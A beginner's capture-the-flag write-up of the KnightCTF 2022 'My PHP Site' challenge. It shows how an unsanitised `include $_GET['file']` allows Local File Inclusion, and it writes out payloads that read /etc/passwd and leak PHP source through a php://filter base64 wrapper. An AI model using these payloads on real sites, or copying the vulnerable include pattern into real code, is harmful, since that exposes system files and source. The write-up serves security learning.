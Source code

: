 <h1>My PHP Site ( KnightCTF 2022 )</h1>


Hey there its my first writeup.<br/><br/><br/><br/>
So follwoing the link of challenge we find ourself in a webpage, which contains:<br/><br/>
![Alt Text](img/php.png)
<br/><br/>
As you may already know php based websites are full of vulns.<br/><br/>
Getting a closer look at the link, we see the parametre: `/?file=index.html`<br/><br/>
Immediatly we think about an LFI ( Local File Inclusion ).<br/><br/>
Let's try getting something with it:<br/><br/>
`/?file=/etc/passwd`<br/><br/>
YEP, we got an LFI, nothing to find on the /etc/passwd though.<br/><br/>
Let's try getting the source code:<br/><br/>
`/?file=index.php`<br/><br/>
We get some kind of error<br/><br/>
![Alt Text](img/error.png)
hmmm I wonder why, most likely due to the large size of the index.php file....let's use a php filter, the base64 one for example.<br/><br/>
`/?file=php://filter/convert.base64-encode/resource=index.php`<br/><br/>
We got the source code:<br/><br/>
```PD9waHAKCmlmKGlzc2V0KCRfR0VUWydmaWxlJ10pKXsKICAgIGlmICgkX0dFVFsnZmlsZSddID09ICJpbmRleC5waHAiKSB7CiAgICAgICAgZWNobyAiPGgxPkVSUk9SISE8L2gxPiI7CiAgICAgICAgZGllKCk7CiAgICB9ZWxzZXsKICAgICAgICBpbmNsdWRlICRfR0VUWydmaWxlJ107CiAgICB9Cgp9ZWxzZXsKICAgIGVjaG8gIjxoMT5Zb3UgYXJlIG1pc3NpbmcgdGhlIGZpbGUgcGFyYW1ldGVyPC9oMT4iOwoKICAgICNub3RlIDotIHNlY3JldCBsb2NhdGlvbiAvaG9tZS90YXJlcS9zM2NyRXRfZmw0OS50eHQKfQoKPz4KCjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5nPSJlbiI```<br/><br/>
Let's decode it from base64.<br/><br/>
`base64 -d index`<br/><br/>
We get the php source code.<br/><br/>
```<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>
```
Straight to the flag!<br/><br/>
`/?file=s3crEt_fl49.txt`<br/><br/>
Bingo<br/><br/>
![Alt Text](img/flag.png)<br/><br/>


